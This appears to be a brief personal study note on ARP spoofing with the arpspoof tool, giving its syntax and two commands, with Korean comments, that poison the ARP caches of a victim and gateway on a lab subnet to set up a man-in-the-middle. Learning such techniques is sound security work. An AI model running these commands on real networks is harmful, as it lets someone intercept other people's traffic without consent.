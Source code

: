 # hacking ARP Spoofing arpspoof

```sh
# arpspoof -i [interface] -t [target ip] [gateway ip]

arpspoof -i eth0 -t 10.0.2.7 10.0.2.1 # victim에게 내가 access point라고 속임
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 # access point에게 내가 victim이라고 속임
```
